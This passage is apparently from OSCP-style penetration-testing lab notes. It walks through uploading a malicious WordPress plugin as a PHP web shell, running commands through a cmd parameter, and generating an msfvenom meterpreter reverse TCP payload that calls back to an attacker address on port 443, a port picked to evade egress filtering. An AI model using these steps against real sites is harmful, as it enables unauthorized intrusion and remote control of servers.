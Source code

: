 -    plugin package is generated, it’s time to upload the shell

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24_2/32.jpg)
-    install the plugin by clicking Add New at the top left. This will take us to the “Add Plugins”page.

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24_2/33.jpg)
-    we are not downloading a plugin from the WordPress plugin directory, we need to select Upload Plugin at the top left of the page

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24_2/34.jpg)

-    we can select our plugin package
-    We need to select Browse,which will open up a file dialog for us to find the created package.

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24_2/35.jpg)

-    we navigate to the directory containing our plugin, select the pluginshell.zip file

-    we click Install Now

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24_2/36.jpg)
-    Installing the plugin will upload the zip and extract the contents

-    plugin is installed, we can attempt to use it to run system commands on theWordPress target. 

-    For this, we can simply use cURL. As discussed earlier, the directory for the plugin is **wp-content/plugins/**

-    the zip will be extracted into a directory named plugin-shell, and the file that we are targeting is named **plugin-shell.php**.

-    we must also **set a cmd parameter containing the command we are attempting to execute on the target system**. 

-    Let’s attempt to **run whoami **and see if the shell worked.

-    It worked! Based on the output of Listing 880, we are running commands as the **www-data user**.

-    Now it’s time to upload a **meterpreter payload and obtain a full reverse shell.**

-    generate a **meterpreter payload with the msfvenom utility**

```bash
kali@kali:~$ msfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=10.11.0.4 LPORT=443 -  
f elf > shell.elf
```

-    We are selecting the **Linux reverse TCP meterpreter payload ** since we know that the **target isrunning on Ubuntu** .

-    The** LHOST option will point to our KaliIP address and we are selecting an LPORT of 443** in an **attempt to evade any outbound firewall rules**.

-    While it’s good practice to always check for any egress filtering, in this case we will make the **assumption that port 443 is unrestricted**. 
 